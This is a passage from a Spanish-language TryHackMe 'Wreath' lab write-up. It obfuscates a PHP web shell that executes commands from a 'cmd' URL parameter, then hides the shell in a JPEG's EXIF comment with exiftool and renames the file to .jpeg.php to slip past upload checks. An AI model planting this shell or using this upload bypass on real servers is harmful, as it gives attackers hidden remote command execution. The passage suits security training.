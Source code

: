 Para ofuscar nuestra [web shell](https://hacknotes.github.io/tryhackme/wreathWriteUp/#web-shell) es tan fácil como copiarla y pegarla en [php ofuscator](https://www.gaijin.at/en/tools/php-obfuscator), activar todas las opciones y presionar en `Obfuscate Source Code` como podemos observar en la imagen anterior.

**Resultado:**

```php
<?php $e0=$_GET[base64_decode('Y21k')];if(isset($e0)){echo base64_decode('PHByZT4=').shell_exec($e0).base64_decode('PC9wcmU+');}die();?>
```

#### Imagen

Con los siguientes comando podemos ver que nuestro archivo elegido es de tipo `JPEG` y como comentario tiene `foto`.

```php
file jch.jpeg
exiftool jch.jpeg | grep Comment
```

En este punto insertaremos nuestra `web shell ofuscada` en nuestra imagen y volveremos a revisar que tenemos como comentario.

Muy importante antes de insertar nuestra `web shell ofuscada` como comentario en nuestra imagen **debemos** escapar el carácter `$` con `\` ya que si no nuestra consola lo interpretara como variables y nos dará un error.
{: .notice--danger}

```php
exiftool -Comment="<?php \$e0=\$_GET[base64_decode('Y21k')];if(isset(\$e0)){echo base64_decode('PHByZT4=').shell_exec(\$e0).base64_decode('PC9wcmU+');}die();?>" jch1.jpeg
exiftool jch.jpeg | grep Comment
```

Como paso final tras haber insertado ya nuestra `web shell ofuscada` como comentario podemos revisar que nuestro archivo aun es una imagen.

El nombre de esta imagen debe ser cambiada con una doble extensión como `.jpeg.php` ya que de lo contrario la web no interpretara nuestro código `php`.
{: .notice--danger}

```bash
file jch.jpeg
mv jch.jpeg jch.jpeg.php
```
